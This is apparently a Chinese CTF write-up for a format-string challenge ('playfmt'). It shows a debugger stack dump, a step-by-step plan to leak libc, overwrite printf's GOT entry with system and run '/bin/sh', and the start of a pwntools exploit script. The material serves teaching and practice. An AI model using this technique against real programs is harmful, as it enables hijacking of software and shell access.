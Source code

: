 ```shell  
... ↓  
1a:0068│      0xff8b6038 —▸ 0xf7f68000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1b2db0  
1b:006c│      0xff8b603c —▸ 0xf7f9ec04 ◂— 0x0  
1c:0070│      0xff8b6040 —▸ 0xf7f9e000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x23f40  
1d:0074│      0xff8b6044 ◂— 0x0  
1e:0078│      0xff8b6048 —▸ 0xf7f68000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1b2db0  
... ↓  
20:0080│      0xff8b6050 ◂— 0x0  
21:0084│      0xff8b6054 ◂— 0x87314245  
22:0088│      0xff8b6058 ◂— 'U\x0c]('  
23:008c│      0xff8b605c ◂— 0x0  
... ↓  
26:0098│      0xff8b6068 ◂— 0x1  
27:009c│      0xff8b606c —▸ 0x8048400 (_start) ◂— xor    ebp, ebp  
28:00a0│      0xff8b6070 ◂— 0x0  
29:00a4│      0xff8b6074 —▸ 0xf7f8f010 (_dl_runtime_resolve+16) ◂— pop    edx  
2a:00a8│      0xff8b6078 —▸ 0xf7f89880 (_dl_fini) ◂— push   ebp  
2b:00ac│      0xff8b607c —▸ 0xf7f9e000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x23f40  
2c:00b0│      0xff8b6080 ◂— 0x1  
2d:00b4│      0xff8b6084 —▸ 0x8048400 (_start) ◂— xor    ebp, ebp  
2e:00b8│      0xff8b6088 ◂— 0x0  
2f:00bc│      0xff8b608c —▸ 0x8048421 (_start+33) ◂— hlt  
30:00c0│      0xff8b6090 —▸ 0x8048587 (main) ◂— lea    ecx, [esp + 4]  
31:00c4│      0xff8b6094 ◂— 0x1  
32:00c8│      0xff8b6098 —▸ 0xff8b60b4 —▸ 0xff8b792a ◂— './playfmt'  
33:00cc│      0xff8b609c —▸ 0x80485c0 (__libc_csu_init) ◂— push   ebp  
34:00d0│      0xff8b60a0 —▸ 0x8048620 (__libc_csu_fini) ◂— ret  
35:00d4│      0xff8b60a4 —▸ 0xf7f89880 (_dl_fini) ◂— push   ebp  
36:00d8│      0xff8b60a8 —▸ 0xff8b60ac —▸ 0xf7f9e918 ◂— 0x0  
37:00dc│      0xff8b60ac —▸ 0xf7f9e918 ◂— 0x0  
38:00e0│      0xff8b60b0 ◂— 0x1  
39:00e4│      0xff8b60b4 —▸ 0xff8b792a ◂— './playfmt'  
3a:00e8│      0xff8b60b8 ◂— 0x0  
3b:00ec│      0xff8b60bc —▸ 0xff8b7934 ◂— 'LANG=C.UTF-8  
```  
  
大致需求是：  
  
- 栈上存放了`__libc_start_main`地址，可以用来计算libc地址,同时由于涉及到利用栈上变量当跳板，需要泄露出esp的值。这样就可以得到此时esp值和`lib_start_main`地址，进一步得到libc地址与system地址。  
- 需要存放了栈上地址的栈地址作为跳板，形象地说就是：栈地址->栈地址->栈地址(这个之所以选择栈地址的目的就是为了尽量减少需要修改的字节数量，毕竟数量一多格式化字符串前面的%{n}c就越大，也就越慢了，甚至解不出来)  
  - 可以选择0x15 0x16  
    - 0x15->0x39->栈地址  
    - 0x16->0x3b->栈地址  
- 需要存放0x0804xxxx的栈地址，这样的目的是got表也是0x0804xxxx，这样可以只用修改低2字节。  
  
```python  
"""  
1. 0x15存放的0x39处地址，在此处利用漏洞(%21$hn)将0x39处值修改为0x7地址  
2. 0x16存放的0x3b处地址，在此处利用漏洞(%22$hn)将0x3b处值修改为0xb地址  
3. 此时0x39存放的0x7地址，0x3b存放的0xb地址  
4. 在0x39处利用漏洞(%57$hn)利用漏洞将0x7处存放的值改为printf_got地址  
5. 在0x3b处利用漏洞(%59$hn)利用漏洞将0xb处存放的值改为printf_got+2地址  
6. 至此已经将printf_got以及printf_got+2地址放入了栈上0x7和0xb处。  
7. 利用漏洞将printf_got和printf_got+2两个地址处的双字节修改为system高双字节和低双字节地址  
8. 最后传入”/bin/sh”，在程序调用printf时便实现劫持得到shell  
"""  
from pwn import *  
# context.log_level = "debug"  
  
def hhn(addr,offset):  
    return "%{addr}c%{offset}$hhn".format(addr=addr,offset=offset)  
  
```